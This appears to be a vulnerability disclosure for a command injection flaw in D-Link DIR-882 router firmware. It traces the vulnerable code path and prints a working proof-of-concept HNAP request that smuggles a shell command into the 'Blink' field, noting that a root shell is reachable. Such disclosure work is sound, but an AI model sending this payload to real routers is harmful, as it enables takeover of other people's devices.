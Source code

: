 # D-link DIR882A1_FW130B06.bin Command injection vulnerability

## Overview

- Manufacturer's website information：https://www.dlink.com/
- Firmware download address ： [http://tsd.dlink.com.tw/GPL.asp](http://tsd.dlink.com.tw/GPL.asp)

## 1. Affected version

![image-20220405112631846](img/image-20220405112631846.png)

Figure 1 shows the latest firmware Ba of the router

## Vulnerability details

![image-20220405170719604](img/image-20220405170719604.png)

The content obtained by the program through the / settriggerledblink / blink parameter is passed to V4, and then V4 passes the matched content to V6 through the sprintf function, and then V6 is brought into the twsystem function

![image-20220405170747078](img/image-20220405170747078.png)

At this time, the corresponding parameter is A1

![image-20220405170805434](img/image-20220405170805434.png)

The program passes A1 to v18 array, and finally executes the commands in v18 through execv. There is a command injection vulnerability.

## Recurring vulnerabilities and POC

In order to reproduce the vulnerability, the following steps can be followed:

1. Use the fat simulation firmware DIR882A1_FW130B06.bin
2. Attack with the following POC attacks

```
POST /HNAP1/ HTTP/1.1
Host: 192.168.0.1:7018
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:98.0) Gecko/20100101 Firefox/98.0
Accept: */*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: text/xml; charset=utf-8
SOAPAction: "http://purenetworks.com/HNAP1/SetLEDStatus"
HNAP_AUTH: FBAFE6649BD7D7195037F941B5248F0F 1649150396101
X-Requested-With: XMLHttpRequest
Content-Length: 338
Origin: http://192.168.0.1:7018
Connection: close
Referer: http://192.168.0.1:7018/Admin.html
Cookie: SESSION_ID=2:1556825615:2; uid=UXOR3rQa

<?xml version="1.0" encoding="utf-8"?><soap:Envelope xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema" xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/"><soap:Body><SetLEDStatus xmlns="http://purenetworks.com/HNAP1/"><Enabled>false</Enabled></SetLEDStatus><SetTriggerLEDBlink><Blink>&& ls > /tmp/456 &&echo 1>
</Blink>
</SetTriggerLEDBlink>
</soap:Body></soap:Envelope>
```

The reproduction results are as follows:

![image-20220405112133823](img/image-20220405112133823.png)

Figure 2 POC attack effect

Finally, you can write exp, which can achieve a very stable effect of obtaining the root shell
